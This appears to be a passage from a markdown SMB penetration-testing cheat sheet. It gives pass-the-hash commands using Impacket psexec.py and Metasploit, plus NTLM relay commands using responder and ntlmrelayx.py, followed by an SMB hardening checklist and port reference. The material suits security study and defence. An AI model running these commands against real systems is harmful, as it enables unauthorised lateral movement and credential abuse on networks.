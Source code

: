#### Using Impacket's psexec.py
```bash
python3 psexec.py -hashes <LM_hash>:<NTLM_hash> <domain>/<username>@<target_ip>
```

#### Using Metasploit
```bash
use exploit/windows/smb/psexec
set smbdomain <domain>
set smbuser <username>
set smbpass <LM_hash>:<NTLM_hash>
set rhosts <target_ip>
exploit
```

### 5. Relay Attacks

#### Using responder
```bash
responder -I eth0 -wrf
```

#### Using ntlmrelayx.py
```bash
python3 ntlmrelayx.py -tf targets.txt -smb2support
```

## SMB Security Hardening

1. **Disable SMB v1** - Highly vulnerable to attacks
2. **Apply security patches** promptly
3. **Use strong authentication** - Complex passwords, MFA where possible
4. **Implement network segmentation** for SMB traffic
5. **Enable SMB signing** to prevent MITM attacks
6. **Disable guest accounts** and anonymous access
7. **Implement proper share permissions**
8. **Use SMB encryption** available in SMB 3.0+
9. **Regularly audit SMB shares** and access permissions
10. **Monitor for unusual SMB activity** in logs

## Port Reference
- SMB typically runs on:
  - TCP port 445 (SMB over TCP)
  - TCP/UDP port 139 (SMB over NetBIOS)
